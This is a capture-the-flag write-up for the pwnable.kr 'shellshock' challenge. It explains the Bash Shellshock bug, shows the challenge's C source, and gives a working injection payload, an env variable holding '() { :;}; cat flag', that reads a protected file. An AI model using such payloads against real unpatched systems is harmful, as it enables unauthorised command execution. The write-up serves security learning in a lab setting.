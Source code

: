 ## Description
shellshock - 1 pt [writeup]

> Mommy, there was a shocking news about bash.
> I bet you already know, but lets just make it sure :)
>
>
> ssh shellshock@pwnable.kr -p2222 (pw:guest)

## Solution
The title of the challenge is a reference to the Shellshock vulnerability, which was a vulnerability in the Bash shell. The vulnerability was discovered in 2014, and was fixed in Bash 4.3. The vulnerability was caused by a flaw in the way Bash handled environment variables.\
You can read more about it [here](https://coderwall.com/p/5db5eg/understanding-the-shellshock-vulnerability).

### shellshock.c
```c
#include <stdio.h>
int main(){
	setresuid(getegid(), getegid(), getegid());
	setresgid(getegid(), getegid(), getegid());
	system("/home/shellshock/bash -c 'echo shock_me'");
	return 0;
}
```
So as we see, the binary is setting the real, effective and saved user and group IDs to the effective group ID. Then it executes the bash shell with the command `echo shock_me`.\
We can assume that the bash shell is vulnerable to the Shellshock vulnerability, so we'll try to exploit it.

So to exploit this vulnerability, we need to set an environment variable that will be executed by the vulnerable Bash shell.\
We can do this by using the `env` command.
```shell
$ ssh shellshock@pwnable.kr -p2222
shellshock@pwnable:~$ env shock_me='() { :;}; cat flag' ./shellshock
[ ... FLAG ... ]
Segmentation fault (core dumped)
```
and we got the flag!

## Setup
```shell
mkdir shellshock && scp -P2222 shellshock@pwnable.kr:* shellshock
```